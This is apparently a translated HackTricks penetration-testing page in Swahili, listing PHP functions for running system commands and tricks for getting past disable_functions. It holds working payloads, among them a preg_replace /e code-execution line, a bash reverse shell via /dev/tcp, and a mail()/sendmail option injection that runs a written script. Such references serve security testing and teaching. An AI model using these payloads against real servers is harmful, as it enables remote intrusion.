 # PHP - Kazi za Kusaidia & kupita disable_functions/open_basedir

{{#include ../../../../banners/hacktricks-training.md}}

## PHP Amri & Utekelezaji wa Kanuni

### Utekelezaji wa Amri za PHP

**Kumbuka:** A [p0wny-shell](https://github.com/flozz/p0wny-shell/blob/master/shell.php) php webshell inaweza **kiotomatiki** kuangalia na kupita kazi zifuatazo ikiwa baadhi yao zimezuiliwa.

**exec** - Inarudisha mstari wa mwisho wa matokeo ya amri
```bash
echo exec("uname  -a");
```
**passthru** - Inapitisha matokeo ya amri moja kwa moja kwa kivinjari
```bash
echo passthru("uname -a");
```
**system** - Inapitisha matokeo ya amri moja kwa moja kwa kivinjari na inarudisha mstari wa mwisho
```bash
echo system("uname -a");
```
**shell_exec** - Inarudisha matokeo ya amri
```bash
echo shell_exec("uname -a");
```
\`\` (backticks) - Sawasawa na shell_exec()
```bash
echo `uname -a`
```
**popen** - Inafungua bomba la kusoma au kuandika kwa mchakato wa amri
```bash
echo fread(popen("/bin/ls /", "r"), 4096);
```
**proc_open** - Inafanana na popen() lakini ina kiwango kikubwa zaidi cha udhibiti
```bash
proc_close(proc_open("uname -a",array(),$something));
```
**preg_replace**
```php
<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>
```
**pcntl_exec** - Inatekeleza programu (kwa default katika PHP za kisasa na zisizo za kisasa unahitaji kupakia moduli ya `pcntl.so` ili kutumia kazi hii)
```bash
pcntl_exec("/bin/bash", ["-c", "bash -i >& /dev/tcp/127.0.0.1/4444 0>&1"]);
```
**mail / mb_send_mail** - Kazi hii inatumika kutuma barua pepe, lakini pia inaweza kutumika vibaya kuingiza amri zisizo za kawaida ndani ya parameter ya `$options`. Hii ni kwa sababu **php `mail` function** kwa kawaida inaita `sendmail` binary ndani ya mfumo na inakuwezesha **kuweka chaguzi za ziada**. Hata hivyo, huwezi kuona matokeo ya amri iliyotekelezwa, hivyo inashauriwa kuunda script ya shell inayandika matokeo kwenye faili, kuitekeleza kwa kutumia barua pepe, na kuchapisha matokeo:
```bash
file_put_contents('/www/readflag.sh', base64_decode('IyEvYmluL3NoCi9yZWFkZmxhZyA+IC90bXAvZmxhZy50eHQKCg==')); chmod('/www/readflag.sh', 0777);  mail('', '', '', '', '-H \"exec /www/readflag.sh\"'); echo file_get_contents('/tmp/flag.txt');
```
**dl** - Kazi hii inaweza kutumika kupakia upanuzi wa PHP kwa njia ya kidinamik. Kazi hii haitakuwepo kila wakati, hivyo unapaswa kuangalia kama inapatikana kabla ya kujaribu kuifanyia shambulio. Soma [ukurasa huu kujifunza jinsi ya kutumia kazi hii](disable_functions-bypass-dl-function.md).
